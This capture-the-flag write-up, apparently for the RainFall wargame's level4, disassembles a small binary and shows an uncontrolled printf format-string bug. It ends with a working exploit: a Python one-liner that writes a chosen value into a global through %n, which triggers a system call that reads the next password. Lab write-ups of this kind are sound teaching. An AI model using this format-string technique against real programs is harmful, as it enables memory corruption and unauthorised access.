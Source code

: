 #### notes
```
8049810  m    : global variable m
8048444  p    : fn : called in n
8048457  n    : fn : called in main
80484a7  main : rak 3arf
```

##### 0x08048457 : n() : disassembly
_`<0> -> <+3> : prepare stack frame for n function with size 536`_
```c
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,0x218 // esp's size  = 536
```
_`<+9> -> <+35> : prepare arguments for fgets function`_
```c
0x08048460 <+9>:	mov    eax,ds:0x8049804 // eax = stdin
0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax // esp+8 = eax = stdin
0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200 // esp+4 = 512
0x08048471 <+26>:	lea    eax,[ebp-0x208] // eax = address of (ebp-520)
0x08048477 <+32>:	mov    DWORD PTR [esp],eax // *esp = eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt> // fgets(ebp-520, 512, stdin) // fgets(&esp, esp+4, esp+8)
```
_`<+40> -> <+49> : prepare arguments to call p function`_
```c
0x0804847f <+40>:	lea    eax,[ebp-0x208] // eax = address of (ebp-520)
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
```
_`<54> -> <+64> : compare value of global var "m" to 16930116`_
```c
0x0804848d <+54>:	mov    eax,ds:0x8049810 // eax = m
0x08048492 <+59>:	cmp    eax,0x1025544 // if eax == 16930116
0x08048497 <+64>:	jne    0x80484a5 <n+78> // if condition not true jump to line 78
```
_`<+66> -> <+73> : if condition passed, call system to print the pass`_
```c
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590 // "/bin/cat /home/user/level5/.pass"
0x080484a0 <+73>:	call   0x8048360 <system@plt> // system("/bin/cat /home/user/level5/.pass")
```
_`<+78> -> <+79> : if condition rejected exit the program and pop it from the stack`_
```c
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
```
##### 0x08048444 : p() : disassembly
_`<+0> -> <+3> : init stack frame for p with size 24`_
```c
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
```
_`<+6> -> <+12> : send first param (ebp+8) to printf `_
```
to view the argument value , 
- break point to P 
- run with this value "allali is sexy" when fgets is reached 
- debug like that  :
```
```c
(gdb) x $ebp+0x8 // view the address saved in ebp+8 
0xbffff4e0:	0xbffff4f0
(gdb) x 0xbffff4f0 //view the address pointed to by this address 
0xbffff4f0:	0x41414141
(gdb) x/s 0xbffff4f0 // view the value stored in that address 
0xbffff4f0:	 "allali is sexy\n"
(gdb)
```
```c
0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8] // eax = *argv[1]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax // *esp = eax
0x08048450 <+12>:	call   0x8048340 <printf@plt> // printf(esp)
```
_`<+17> -> <+18> : pop the stack frame, to exit the function`_
```c
0x08048455 <+17>:	leave
0x08048456 <+18>:	ret
```
---
#### Solution :
---
lets find where the address is placed first 
```c
level4@RainFall:~$ (python -c 'print  "\x08\x04\x98\x10"[::-1] + "%p " * 20') | ./level4
0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718 0x804848d  0xbffff510 0x200      0xb7fd1ac0 
0xb7ff37d0 0x8049810  0x25207025 0x70252070  0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
               ↑ 
              here at position : 12
```
we gonna use same solution as previous exercice [level3][0] , to write `16930116` into the m variable as the address itself costin 4 bytes of memory
and `%n` write all the size that has been read befoer it to the address  given in the `x` position `%x$n`
so the exploit will be like bellow : 
x  = 16930112
Final Exploit :
```shell
(python -c 'print  "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"') | ./level4
                            4 bytes              x bytes        position 12
```


[0]: ../level3/readme.md